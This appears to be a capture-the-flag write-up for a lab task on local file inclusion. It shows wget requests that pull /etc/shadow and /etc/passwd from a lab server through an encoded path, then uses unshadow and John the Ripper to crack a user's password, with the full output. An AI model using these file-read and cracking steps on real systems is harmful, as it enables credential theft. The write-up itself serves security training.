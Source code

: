   mcchef

---

### [Task 20] [Day 15] LFI

- What is Charlie going to book a holiday to?

  **Solution:**

- Read /etc/shadow and crack Charlies password.

  **Solution:**

  ~~~bash
  $ wget http://10.10.13.10/get-file/%2Fetc%2Fshadow 
  --2020-09-23 14:36:48--  http://10.10.13.10/get-file/%2Fetc%2Fshadow
  Connecting to 10.10.13.10:80... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 1062 (1.0K) [application/json]
  Saving to: ‘%2Fetc%2Fshadow’
  
  %2Fetc%2Fshadow                  100%[========================================================>]   1.04K  --.-KB/s    in 0s      
  
  2020-09-23 14:36:49 (77.3 MB/s) - ‘%2Fetc%2Fshadow’ saved [1062/1062]
  
  $ wget http://10.10.13.10/get-file/%2Fetc%2Fpasswd 
  --2020-09-23 14:56:33--  http://10.10.13.10/get-file/%2Fetc%2Fpasswd
  Connecting to 10.10.13.10:80... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 1736 (1.7K) [application/json]
  Saving to: ‘%2Fetc%2Fpasswd’
  
  %2Fetc%2Fpasswd                  100%[========================================================>]   1.70K  --.-KB/s    in 0s      
  
  2020-09-23 14:56:33 (271 MB/s) - ‘%2Fetc%2Fpasswd’ saved [1736/1736]
  
  #After formatting/renaming both downloaded files.
  
  $ unshadow passwd shadow > passwords.txt
  $ john passwords.txt 
  Using default input encoding: UTF-8
  Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
  Cost 1 (iteration count) is 5000 for all loaded hashes
  Will run 8 OpenMP threads
  Proceeding with single, rules:Single
  Press 'q' or Ctrl-C to abort, almost any other key for status
  Almost done: Processing the remaining buffered candidate passwords, if any.
  Warning: Only 2 candidates buffered for the current salt, minimum 32 needed for performance.
  Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
  password1        (charlie)
  1g 0:00:00:06 DONE 2/3 (2020-09-23 14:55) 0.1497g/s 2549p/s 2549c/s 2549C/s 123456..random
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed
  ~~~
